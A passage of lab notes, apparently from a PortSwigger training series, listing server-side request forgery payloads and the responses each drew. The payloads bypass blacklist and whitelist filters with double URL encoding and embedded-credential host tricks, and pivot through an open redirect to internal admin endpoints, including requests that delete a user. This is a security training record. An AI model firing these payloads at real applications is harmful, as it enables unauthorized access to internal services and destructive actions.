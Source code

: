     v1
    stockApi=http://127.1/AdMiN                         (OK)
    stockApi=http://127.1/AdMiN/delete?username=carlos

    v2
    stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65                         (OK, double URL encode)
    stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
    ```

4. #### **SSRF with whitelist-based input filter**

    ```plaintext
    https://<lab_url>/product               GET     (productId=4)
    https://<lab_url>/product/stock         POST
                                            (stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=4&storeId=1)
    ```

    ```plaintext
    stockApi=http://127.0.0.1                                       "External stock check host must be stock.weliketoshop.net"
    stockApi=http://127.1                                           "External stock check host must be stock.weliketoshop.net"
    stockApi=http://2130706433                                      "External stock check host must be stock.weliketoshop.net"
    stockApi=http://017700000001                                    "External stock check host must be stock.weliketoshop.net"
    stockApi=http://0x7f000001                                      "External stock check host must be stock.weliketoshop.net"
    stockApi=http://localhost                                       "External stock check host must be stock.weliketoshop.net"
    stockApi=http://stock.weliketoshop.net:8080                     "Missing parameter"
    stockApi=http://test@stock.weliketoshop.net:8080                "Missing parameter"
    stockApi=http://test#@stock.weliketoshop.net:8080               "External stock check host must be stock.weliketoshop.net"
    stockApi=http://test%23@stock.weliketoshop.net:8080             "External stock check host must be stock.weliketoshop.net"
    stockApi=http://test%25%32%33@stock.weliketoshop.net:8080       500 ISE, "Could not connect to external stock check service"
    stockApi=http://localhost%25%32%33@stock.weliketoshop.net:8080  200 OK

    stockApi=http://localhost%25%32%33@stock.weliketoshop.net:8080/admin
    stockApi=http://localhost%25%32%33@stock.weliketoshop.net:8080/admin/delete?username=carlos
    ```

5. #### **SSRF with filter bypass via open redirection vulnerability**

    ```plaintext
    https://<lab_url>/product               GET   (productId=5)
    https://<lab_url>/product/stock         POST  (stockApi=/product/stock/check?productId=5&storeId=2)
    https://<lab_url>/product/nextProduct   GET   (currentProductId=5&path=/product?productId=6)
    ```

    ```plaintext
    stockApi=/product/stock/check?productId=5%26storeId=2
    stockApi=/product/nextProduct?currentProductId=5%26path=/product?productId=6
    stockApi=/product/nextProduct?currentProductId=5%26path=http://127.0.0.1                 (200 OK)
    stockApi=/product/nextProduct?currentProductId=5%26path=http://192.168.0.12              (500 ISE)
    stockApi=/product/nextProduct?currentProductId=5%26path=http://192.168.0.12:8080         (404 Not Found)
